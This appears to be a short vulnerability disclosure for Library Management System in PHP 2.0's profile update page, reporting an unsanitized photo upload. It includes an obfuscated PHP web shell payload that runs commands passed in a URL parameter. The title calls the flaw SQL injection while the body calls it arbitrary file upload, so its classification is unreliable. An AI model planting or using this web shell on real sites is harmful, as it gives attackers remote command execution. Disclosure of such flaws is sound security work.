



**Title:** Library Management System In PHP With Source Code (Ver.2.0) admin\profile_update.php sql Injection 

**Vendor:** Fabian Ros [Library Management System In PHP With Source Code (Ver.2.0) - Source Code & Projects](https://code-projects.org/library-management-system-in-php-with-source-code-ver-2-0/)

**Affected Product Version**: 2.0

**Vulnerability Type**: Arbitrary file upload

**Audit:**

photo is uploaded without sanitizing 



**Verify**

Payload: 

```php 
<?php $a = 'sys'.'tem'; $a($_GET['pas']); ?>
```


successfully uploaded



